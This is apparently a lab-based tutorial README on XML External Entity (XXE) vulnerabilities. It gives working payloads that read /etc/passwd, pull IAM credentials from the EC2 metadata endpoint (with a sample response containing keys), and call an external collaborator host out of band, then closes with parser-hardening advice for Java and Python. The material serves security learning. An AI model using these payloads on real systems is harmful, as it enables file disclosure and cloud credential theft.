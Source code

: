 ##  **XXE (XML External Entity) vulnerability**
XXE (XML External Entity) vulnerability is a security flaw that occurs when an application processes XML input containing references to external entities. If not properly handled, this can lead to **data exposure, file retrieval, SSRF (Server-Side Request Forgery), and even remote code execution** in some cases.  

---

##  **How XXE Works**
1. **XML Processing**: The application parses user-supplied XML.
2. **External Entity Declaration**: If the XML parser is configured to allow external entities (`DOCTYPE` and `SYSTEM`), attackers can inject references to local or remote files.
3. **Data Exfiltration**: The attacker retrieves sensitive files (e.g., `/etc/passwd`) or triggers SSRF by forcing the server to make requests to internal services.

---

##  **Example of a Vulnerable XML**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  
<root>  
    <data>&xxe;</data>  
</root>
```
 If an application processes this XML, it will replace `&xxe;` with the contents of `/etc/passwd`, exposing sensitive system information.

## **case1: Exploiting XXE using external entities to retrieve files**
```Payload

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
    </stockCheck>
```    
## **case2: Exploiting XXE to perform SSRF attacks**
```secnerio: The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is http://169.254.169.254/. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
  motive: obtains the server's IAM secret access key from the EC2 metadata endpoint.

payloads

<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [ <!ENTITY procuctid SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
    <stockCheck>
        <productId>&procuctid;</productId>
        <storeId>1</storeId>
</stockCheck>
```
```Response:
            HTTP/2 400 Bad Request

            Content-Type: application/json; charset=utf-8

            X-Frame-Options: SAMEORIGIN

            Content-Length: 552

            "Invalid product ID: {

            "Code" : "Success",

            "LastUpdated" : "2025-03-11T08:19:31.312893341Z",

            "Type" : "AWS-HMAC",

            "AccessKeyId" : "w4CprEoDqP8HcOoLxq1l",

            "SecretAccessKey" : "iGY2bXKWVPmXrG1tllcM4B4pZCq5XivMtFxpbnhm",

            "Token":
"uqqU5kZR1JlvTBF85Eyn2aJDv6zEVFdntShz9zMpqtazw5AQrIkrNisng0DLy0GomI0uqbATyQwBUNw6Ey4YubP4CJnqQAoqO1Qd0lMkkVQPTgtREDUuQiNVAf0qzMUKRsXS7G9pdI6PBfm1g8V0wCNYSKW2YdkWSZaYsOqc4CmXWT4cE0znDrONJ2cN6NpPJCEAFmwO55NDqNnpuMRFovx8DUVs4QdCFDNdW4Vw0JVAQdtU5jsirgxMS4hK1Qkd",

              "Expiration" : "2031-03-10T08:19:31.312893341Z"

            }"
```
## case 3: Blind XXE with out-of-band interaction
``` secnerio: use an external entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
    payloads:
    <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://pe7r5ma8pmiqhg5yu8d1hkk9b0hr5vtk.oastify.com/"> ]>
        <stockCheck>
            <productId>&xxe;</productId>
            <storeId>1</storeId>
        </stockCheck>
```
---

## 🛠 **Exploiting XXE**
- **File Disclosure**: Load system files using `file:///path/to/file`.
- **SSRF (Server-Side Request Forgery)**: Force the server to request internal/external resources (`http://internal-service/`).
- **Denial of Service (Billion Laughs Attack)**: Overload memory by nesting entities.
- **RCE (in rare cases)**: If the application allows interaction with system commands via an entity, remote code execution might be possible.

---

##  **How to Prevent XXE**
 **Disable DTD Processing** (External Entities):  
- In Java (DOM Parser):
  ```java
  DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
  dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
  ```
- In Python (`lxml` parser):
  ```python
  from lxml import etree
  parser = etree.XMLParser(resolve_entities=False)
  ```

**Use Safe Parsers**: Choose modern, secure XML libraries that disable external entity resolution by default.  
**Input Validation**: Avoid accepting XML input unless necessary.  
**Use JSON Instead of XML**: JSON does not support external entities, reducing the risk of XXE.

## **Refrence** 
   
   https://rohitcoder.medium.com/comprehensive-guide-detecting-fixing-and-defending-against-xxe-attacks-in-python-and-java-e78691b4b918
   
   https://www.w3schools.com/xml/xml_dtd_intro.asp
   
---
